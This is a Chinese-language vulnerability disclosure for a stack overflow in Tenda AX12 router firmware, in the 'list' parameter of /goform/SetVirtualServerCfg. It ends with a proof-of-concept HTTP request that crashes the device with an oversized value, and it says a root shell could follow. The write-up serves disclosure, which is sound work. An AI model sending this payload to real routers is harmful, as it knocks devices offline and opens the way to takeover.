 
### **概述**：
影响设备：Tenda AX12 V1.0
影响固件版本：V22.03.01.46
影响：拒绝服务攻击，栈溢出可以进一步获得root shell
固件下载地址：<https://www.tenda.com.cn/download/detail-3621.html>


![](xz.png)

### **漏洞**：
该漏洞位于`/goform/SetVirtualServerCfg`中对获取的请求参数`list`没有长度限制，最终可以导致堆栈溢出
在`httpd`文件中的`sub_41DE60`函数中存在目标漏洞函数`sub_43B1B4`

![](v1.png)

漏洞存在于`sub_43AF3C`中：

![](v2.png)

可以看到将请求参数`list`传入变量`v3`，由于并未对变量`v3`做长度限制，下面的`sscanf`函数将以逗号作为分隔将`v3`的值分别传入`v12,v11,v10,v9`，而这几个变量只需要一定长度的填充就可以栈溢出，可以轻易的导致拒绝服务攻击，进一步构造exp能够获取shell,漏洞如下图:

![](vuln3.png)


### **POC**:

~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000

~~~

### **影响效果**：


![](after.png)